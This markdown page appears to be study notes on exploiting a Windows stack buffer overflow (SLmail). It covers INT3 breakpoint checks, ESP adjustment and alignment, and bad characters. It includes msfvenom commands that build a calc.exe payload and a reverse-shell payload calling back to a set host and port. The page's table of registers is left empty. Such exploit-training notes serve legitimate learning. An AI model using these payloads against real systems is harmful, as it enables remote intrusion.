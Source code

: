 If still you see 2 then Increase the number of "Z" i.e buff += "ZZ" or "ZZZ" as per requirement.

Now check the Stack is written by INT3 intrrupt also you can see the address of ESP is `008F19E4` and the address out INT3 is place is `008F19E5` because at the address of ESP intrrupt is already exeuted and immunity doesnt show that to us but if you see at the disassembly section we can see "xxxx" .

**One more step towards the shell execution**
Inshort: INT3 caused the breakpoint automatically.

Lets create our shell now.
`msfvenom -p windows/exec -b '\x00\x0A' 
-f python --var-name shellcode_calc CMD=calc.exe EXITFUNC=thread`

Reverse Shell:
`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.43.139 LPORT=110 EXITFUNC=thread -v shell_code -f py -b "\x00\x0a\x0d"`


In metasploit code there is a thing called GetPC which is basically "Get the program counter/EIP" and to bypass this ppl use NOP which is No operation which they keep increasing untill their payload works.

**The right way** is by creating a assembly code as metasploit gives us a module to do that `metasm_shell.rb`
which give assebly instructions

We want to move the stack towards the lower addresses, so `SUB ESP, 0x10` will be "\x83\xec\x10"

This assembly code will drag ESP far enough up the stack.
**Note: It should not containe any bad characters.**

It is more beautiful way rather than just filling NOP's in until things work.

---
Whenever you muck with ESP by adding to it, subtracting from it, or outright changing it.
make sure that ESP you subtracting should be divisible by 4 as in this one 0x10 = 16 which is divisible by 4 and remains 4.
**ESP is naturally 4-byte aligned on x86 and you would do well to keep it that way.**

---

This is how you can execute commands on it.




## Important
In SLmail see once more the INT3 intrrupt problem that soreted out with adding Z after EIP.



## Registers

|Registers|Description|
|--|--|
|EAX||
|ECX||
|EDX||
|EBX||
|ESI||
|EDI||
|EBP(impt)||
|ESP(impt)||